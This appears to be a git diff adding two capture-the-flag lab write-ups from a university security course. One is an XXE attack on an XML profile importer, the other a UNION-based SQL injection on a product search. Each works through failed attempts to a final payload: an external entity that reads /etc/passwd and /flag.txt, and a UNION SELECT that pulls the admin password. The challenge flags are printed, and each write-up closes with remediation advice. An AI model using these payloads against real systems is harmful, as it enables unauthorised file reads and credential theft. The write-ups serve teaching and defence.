

2 new chall

diff --git a/IIK3100/WEB/24-XML_External_Entity.md b/IIK3100/WEB/24-XML_External_Entity.md
@@ -1,0 +1,99 @@
+# Challenge 4 · XML External Entity (XXE) — XML Profile Importer
+
+**Category:** Web / XXE
+**Challenge:** *Import a user profile as XML. The parser "supports standard XML features" and echoes back the field values it finds. Abuse external entity resolution to read a local file off the server and recover the flag.*
+
+![XML Profile Importer — baseline submission echoes name and email back as JSON](images/01-importer.png)
+
+## Recon
+
+The importer takes an XML document with a `<profile>` root and echoes the parsed fields back as JSON:
+
+```xml
+<?xml version="1.0"?>
+<profile>
+  <name>Alice</name>
+  <email>alice@example.com</email>
+</profile>
+```
+→ `{ "email": "alice@example.com", "name": "Alice" }`
+
+Two things make this exploitable. The subtitle brags that the parser "supports **standard XML features**" — the relevant standard feature being **external entity resolution**, which most parsers should have disabled. And the server **reflects** `name` and `email` straight back, giving a ready-made channel to exfiltrate whatever an entity expands to. That combination is classic **XXE**: declare an external entity in the DTD, reference it inside a reflected field, and let the parser fetch the file for you.
+
+Important distinction up front: an external entity isn't *executed*. The parser simply **retrieves and substitutes** the target — it doesn't care whether the target is XML or a program, which is exactly why a plain file like `/etc/passwd` gets inlined.
+
+## Exploitation
+
+### Attempt 1 — two roots (`junk after document element`)
+
+First try followed a generic tutorial payload with a `<foo>` wrapper:
+
+```xml
+<!ENTITY xxe SYSTEM "file:///etc/passwd">]> <foo>&xxe;</foo>
+<profile> ... </profile>
+```
+
+![Parse error: junk after document element, line 4](images/02-junk-error.png)
+
+`<foo>` and `<profile>` are **two root elements** — XML allows exactly one. The parser treats `<foo>` as the document and everything after as junk. The `<foo>` wrapper is also useless here anyway: the server only echoes fields it recognises (`name`, `email`), so the entity has to land in one of *those*, not an invented element.
+
+### Attempt 2 — declaration with no URI (silent no-op)
+
+Collapsed to a single `<profile>` root, but dropped the entity's target:
+
+```xml
+<!ENTITY xxe SYSTEM ]>
+...
+<name>&xxe;</name>
+```
+
+![Defaults echoed — Alice / alice@example.com — entity had no effect](images/03-no-uri-noop.png)
+
+Parses cleanly but `SYSTEM` was left pointing at nothing, so the entity resolved to nothing and the defaults came back. `SYSTEM` must be followed by a quoted URI.
+
+### Attempt 3 — file read confirmed
+
+Full payload — entity declared with a real `file://` URI (three slashes = empty host + absolute path `/etc/passwd`), referenced inside the reflected `name` field, and the entity declaration properly terminated with its own `>`:
+
+```xml
+<?xml version="1.0"?>
+<!DOCTYPE profile [
+<!ELEMENT profile ANY>
+<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
+<profile>
+  <name>&xxe;</name>
+  <email>alice@example.com</email>
+</profile>
+```
+
+![/etc/passwd contents leaked into the name field](images/04-passwd-leak.png)
+
+→ `"name": "root:x:0:0:root:/root:/bin/bash\nctfuser:x:1001:1001:::"`
+
+External entity resolution is **on**, and arbitrary local file read is confirmed. The `\n` in the output is the newline between passwd entries — the whole file was inlined wherever `&xxe;` sat, proving the parser treats a file path and a user string as interchangeable.
+
+### Getting the flag
+
+`passwd` was only proof. Note that `ctfuser`'s home-directory field is **blank** (`...1001:1001:::`), a deliberate nudge so the path can't be copied straight out. Rather than hunt the home directory, the simplest guess won: the flag file sitting at filesystem root.
+
+```xml
+<!ENTITY xxe SYSTEM "file:///flag.txt">
+```
+
+![flag.txt read into the name field — challenge solved](images/05-flag.png)
+
+→ `"name": "Flag: CTF{xml_3xt3rn4l_3nt1ty_l34k3d}\nClassification: TOP SECRET"`
+
+## Flag
+
+```
+CTF{xml_3xt3rn4l_3nt1ty_l34k3d}
+```
+
+## Takeaway
+
+The parser resolved a user-supplied **external entity** against the local filesystem and the app reflected the result, turning an XML import into arbitrary file read. The flag name spells the vuln: an **XML External Entity** was **leaked**.
+
+**Fix** — this is a parser-configuration problem, not input validation. Disable DOCTYPE / DTD processing (and external entity + external DTD loading) on the parser. In Python's `defusedxml`, or via `lxml` with `resolve_entities=False` / `no_network=True` and forbidding DTDs, the payload returns `&xxe;` literally instead of a file.
+
+**Related:** swap `file://` for `http://127.0.0.1:…` and the same primitive becomes **SSRF** — the parser makes the outbound request. And if the field weren't reflected, the data could still be exfiltrated out-of-band via a parameter entity pointing at an attacker-controlled server — **blind XXE**.

diff --git a/IIK3100/WEB/21-SQL_Injection.md b/IIK3100/WEB/21-SQL_Injection.md
@@ -1,0 +1,63 @@
+# Challenge 1 · SQL Injection — ShopDB Product Search
+
+**Category:** Web / SQLi
+**Flag:** `CTF{uni0n_b4s3d_sqli_f0r_the_win}`
+
+## Overview
+
+A product search box drops user input straight into a SQL query. Results come back as JSON with three fields (`id`, `name`, `price`) — a strong hint that the underlying `SELECT` exposes exactly three columns. The goal: read the `password` column of the `admin` row in the `users` table.
+
+## Step 1 — Find the column count
+
+Probe how many columns the query returns with `ORDER BY N`:
+
+```sql
+' ORDER BY 4--
+```
+
+![ORDER BY 4 out of range](images/01-order-by-4.png)
+
+*"1st ORDER BY term out of range — should be between 1 and 3"* → the query has **3 columns**.
+
+## Step 2 — Map the output
+
+```sql
+' ORDER BY 1--
+```
+
+![Three columns returned](images/02-three-columns.png)
+
+The three columns render as `id` (numeric), `name` (text), `price` (numeric). The **`name`** slot is the clean place to surface text — that's where the flag goes.
+
+## Step 3 — Match the UNION column count
+
+A `UNION SELECT` must return the same number of columns. Too few triggers:
+
+![UNION column mismatch](images/03-union-mismatch.png)
+
+*"SELECTs to the left and right of UNION do not have the same number of result columns"* → the UNION also needs **3** values.
+
+## Step 4 — Extract the flag
+
+Final payload — `NULL` filler in the numeric slots, the real target in the text slot:
+
+```sql
+' UNION SELECT NULL, password, NULL FROM users WHERE username = 'admin'--
+```
+
+![Flag revealed](images/04-flag.png)
+
+The injected row appears on top of the real products, with the flag sitting in the `name` field:
+
+```
+CTF{uni0n_b4s3d_sqli_f0r_the_win}
+```
+
+## Root Cause & Remediation
+
+**Cause:** User input is concatenated directly into the SQL string with no parameterization.
+
+**Fix:**
+- Use parameterized queries / prepared statements so input is always treated as data, never SQL.
+- Apply least-privilege database accounts.
+- Avoid returning raw query output to the client.
